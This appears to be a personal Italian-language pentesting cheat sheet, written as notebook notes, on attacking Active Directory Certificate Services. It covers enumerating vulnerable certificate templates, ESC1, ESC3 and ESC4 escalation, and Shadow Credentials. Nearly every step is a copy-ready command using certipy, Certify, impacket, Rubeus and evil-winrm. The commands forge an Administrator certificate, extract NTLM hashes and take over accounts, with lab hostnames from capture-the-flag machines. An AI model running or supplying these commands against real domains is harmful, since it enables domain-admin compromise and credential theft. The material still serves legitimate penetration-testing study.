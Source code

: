 ### **ENUMERAZIONE**
Cerca un template vulnerabile
```bash
certipy-ad find -u <USER> -p <PASS> -dc-ip <IP> -vulnerable -stdout
```
```powershell
./Certify.exe find /vulnerable
```
![[Pasted image 20230719143059.png]]
### **EXPLOIT ESC 1**
Hai la possibilità di enroll

```bash
impacket-addcomputer  <DOMINIO>/<USER>:'<PASS>' -computer-name testComputer2$ -computer-pass TestPassword321
```
![[Pasted image 20230719143908.png]]
controllo se è stato creato
```bash
crackmapexec smb <IP> -u 'testComputer2$' -p 'TestPassword321' -d <DOMINIO>
```
![[Pasted image 20230719150304.png]]
Generiamo un certificato per l'account appena creatp
```bash
certipy req -u 'testComputer2$' -p 'TestPassword321' -dc-ip IP_DC_HERE -ca AUTHORITY-CA -template '<TEMPLATE>' -upn 'Administrator'
```
![[Pasted image 20230719150515.png]]
Ora dividi il certificato
```bash
certipy cert -pfx administrator.pfx -nokey -out user.crt
certipy cert -pfx administrator.pfx -nocert -out user.key
```
Usa il seguente tool per accere con il certificato
[PassTheCert/Python at main · AlmondOffSec/PassTheCert · GitHub](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python)
```bash
python3 passthecert.py -action modify_user -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip IP_DC_HERE -target administrator -new-pass
```
![[Pasted image 20230719150944.png]]
Entra con evil-winrm
### **EXPLOIT ESC 3**
Richiedi il certificato
```BASH
certipy-ad req -username <USER>@<IP> -password <PASS> -ca <NOME-CA> -target <NOME MACCHINA> -template <TEMPLATE LOCALE> -upn <USER DA PRENDERE>@<IP> -dns <NOME MACCHINA> -debug
```
```POWERSHELL
Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:<TEMPLATE VULNERABILE> /altname:<TEMPLATE DA PRENDERE>
```
converti chiave e certificato in formato pfx12
```bash
openssl pkcs12 -in cert.pem -inkey private.key -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
Carica rubeus e il cert.pfx sulla macchina e prendi l'hash ntlm
```powershell
.\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials
```
![[Pasted image 20230719143559.png]]
Usa l'hash per loggare tramite evil-winrm
```bash
evil-winrm -i 10.10.11.202 -u Administrator -H <HASH>
```
### **ESC 4 - ADCS**
Grazie al permesso genericWrite possiamo modificare il nostro template per renderlo vulnerabile all'ESC1
```bash
certipy-ad template -u <USER>@<DOMAIN> -p '<PASS>' -template <NOME TEMPLATE> -save-old -debug
```
![[Pasted image 20230828151521.png]]
Poi exploitalo come ESC1.
Per riportarlo alla normalità
```bash
certipy-ad template -u khal.drogo@essos.local -p 'horse' -template ESC4 -configuration ESC4.json
```
![[Pasted image 20230828151547.png]]
### **Shadow Credentials**
[Shadow Credentials: Abusing Key Trust Account Mapping for Account Takeover | by Elad Shamir | Posts By SpecterOps Team Members](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
Stealth e molto utile in caso di vero pentest.
Ha bisogno dell'opzione msDS-KeyCredentialLink abilitata sull'account (Se hai genericWrite o genericAll su un account puoi abilitarla da solo)
```bash
certipy-ad shadow auto -u <USER>@<DOMAIN> -p '<PASS>' -account '<NOME TARGET>'
```
![[Pasted image 20230828173854.png]]